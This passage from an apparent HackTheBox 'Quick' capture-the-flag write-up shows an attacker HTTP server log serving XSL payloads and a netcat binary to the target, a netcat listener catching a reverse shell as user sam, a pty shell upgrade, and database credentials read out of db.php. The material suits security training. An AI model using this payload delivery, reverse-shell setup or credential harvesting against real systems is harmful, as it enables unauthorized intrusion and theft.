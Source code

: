 Final Payload

![Quick](/assets/img/post/hackthebox/quick/12.png)

Python Server It shows our injection is Successfull

```bash
 ~/htb/boxes/Quick/xsl >> python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.186 - - [25/May/2020 09:52:56] "GET /wget2.xsl HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:52:57] "GET /wget2.xml HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:52:58] "GET /nc HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:55:32] "GET /chod.xsl HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:55:33] "GET /chod.xml HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:56:00] "GET /shell2.xsl HTTP/1.1" 200 -
10.10.10.186 - - [25/May/2020 09:56:01] "GET /shell2.xml HTTP/1.1" 200 -
```

And we get shell `sam` on listner

```bash
 ~/htb/boxes/Quick >> nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.10.186] 40126
python -c 'import pty;pty.spawn("/bin/bash")' 
sam@quick:~$ id
id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
sam@quick:~$ wc -c user.txt
wc -c user.txt
33 user.txt
sam@quick:~$ 
```
# Enumeration:~$

## sam -> srvadm

After doing some Enumeration I found `Database` Creds in /var/www/html

```bash
sam@quick:/var/www/html$ cat db.php
cat db.php
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
sam@quick:/var/www/html$
```
